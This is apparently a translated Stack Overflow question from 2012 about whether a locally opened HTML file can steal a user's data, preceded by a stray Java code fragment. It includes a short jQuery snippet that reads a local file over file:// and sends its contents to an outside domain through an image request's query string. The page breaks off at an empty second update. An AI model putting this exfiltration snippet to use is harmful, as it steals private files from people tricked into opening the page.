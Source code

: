 ```
        catch (ParseException e){
            System.out.println("Exception :"+e);  
        }  
    }
} 
```

# javascript - 通过运行html文件窃取用户数据

> ID：12328132
> 
> 赞同：11
> 
> 时间：2012-09-08T04:55:06.110
> 
> 标签：javascript, html, security, xmlhttprequest, imagesource

让我们谈谈安全性。在我看来，理论上，如果用户用它打开 html 文件（从他的文件系统打开，而不是从网络打开），我可以使用一些脚本从用户的文件系统获取信息。看代码：

*信息.txt：*

```
my info 
```

*索引.html：*

```
<!doctype html>

<html>
  <head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>
    <script src="http://ajax.googleapis.com/ajax/libs/jquery/1.8.1/jquery.min.js"></script>
    <script>
      $(document).ready(function () {
        $.get('file:///home/daz/desktop/info.txt', function (data) {
          $('<img>').attr('src', 'http://domain.com?data=' + escape(data)).appendTo('body');
        }, 'text');
      });
    </script>
  </head>    
  <body></body>
</html> 
```

一些浏览器（例如firefox）允许您从`file://`through获取文件`XmlHttpRequest`，所以如果我猜到文件的路径，那么我可以通过 ajax 获取它的内容。然后我可以使用查询字符串中的参数动态地添加`img`标签并`src`引导到我的域。而浏览器则乖乖地发出请求`GET ?data=my%20info%0A domain.com`。在服务器端，我可以解析查询字符串并获取数据。

***我可以这样做吗？如果他打开我的 html 文件，我可以从他的计算机上获取用户的数据吗？所以我可以说：“嘿，朋友，看看这个文件！”*** （有 2 个限制：用户应该使用 firefox 或其他具有类似配置的东西，并且由于访问权限，我无法获取用户无法访问的文件）。

***更新：***

如果可能，那为什么可能呢？他们为什么允许你做这样的事情。为什么没有确认对话框之类的。

***更新2：***

